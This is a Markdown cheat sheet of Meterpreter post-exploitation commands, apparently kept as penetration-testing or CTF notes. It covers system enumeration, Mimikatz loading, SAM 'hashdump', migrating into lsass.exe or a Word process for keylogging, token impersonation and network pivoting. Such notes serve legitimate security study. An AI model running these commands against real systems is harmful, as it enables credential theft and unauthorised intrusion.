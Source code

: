 ```yaml
---
title: METERPRETER
summary: A Metasploit attack payload that provides an interactive shell.
description: A Metasploit attack payload that provides an interactive shell.
---
```


**[https://github.com/rapid7/meterpreter](https://github.com/rapid7/meterpreter)**

## Enumeration


 > 
 > **<font color=red>sysinfo</font>**</br>
 > Info about the system.

 > 
 > **<font color=red>getenv</font>**</br>
 > Get one or more environment variable values.

 > 
 > **<font color=red>getuid</font>**</br>
 > Get current user.
 > 
 > **<font color=red>getprivs</font>**</br>
 > Display current user privileges. 

 > 
 > **<font color=red>search -f</font>** flag.txt</br>
 > Search a file on the machine.

## File Transfer


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

## Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Spawn a shell.

 > 
 > **<font color=red>load </font>**</br>
 > **<font color=red>powershell_shell</font>**</br>
 > Spawn Powershell.

## Spawn Mimikatz


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.


\>

 > 
 > **<font color=red>load kiwi</font>**</br>
 > Starts Mimikatz.
 > 
 > **<font color=red>help kiwi</font>**</br>
 > Show Mimikatz commands.

## Attacks


 > 
 > **<font color=red>hashdump</font>**</br>
 > Dump hashes from Windows SAM base (for linux use module  linux/gather/hashdump). 

 > 
 > **<font color=red>migrate</font>** 716</br>
 > Migrate to another process.</br>
 > Ex : Migrate to a word.exe and act like a keylogger.</br>
 > Ex: Migrate to lsass.exe to run hashdump.

## Impersonate

If the current user has **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges enabled, we are able to impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > Load icognito module.
 > 
 > **<font color=red>list_tokens -u</font>**</br>
 > List Delegation Tokens available (not sure of the flag maybe `-g`).
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

 > 
 > **<font color=red>rev2self</font>**</br>
 > Revert to previous user.

## Pivoting

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
